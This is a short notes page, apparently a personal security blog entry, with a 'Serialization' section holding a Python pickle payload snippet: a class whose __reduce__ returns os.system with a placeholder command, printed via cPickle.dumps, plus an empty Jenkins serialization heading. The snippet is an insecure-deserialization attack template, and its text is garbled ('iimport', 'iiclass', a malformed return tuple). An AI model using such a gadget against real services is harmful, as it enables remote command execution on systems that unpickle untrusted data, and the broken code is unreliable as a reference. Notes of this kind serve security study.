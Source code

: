 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<h3 id="python-serialization">Python</h3>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </code></pre>
  </fieldset>



<h3 id="jenkin-serialization">Serialization Issue Jenkins</h3>





